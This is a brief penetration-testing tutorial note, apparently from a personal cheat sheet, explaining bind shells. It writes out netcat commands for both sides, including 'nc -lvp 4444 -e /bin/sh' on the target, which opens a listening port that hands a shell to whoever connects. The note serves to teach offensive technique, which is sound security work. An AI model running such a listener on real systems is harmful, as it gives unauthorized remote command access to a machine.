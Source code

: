 # Bind Shell

In a bind shell you open a port on the victim machine and it listens for our connection into the machine.

You can also use netcat for this process

Step 1: Attack Machine

```jsx
nc IPADDRESS 4444
```

Step 2: Target Machine

```jsx
nc -lvp 4444 -e /bin/sh
```

Bind Shells are mostly used on External Assessments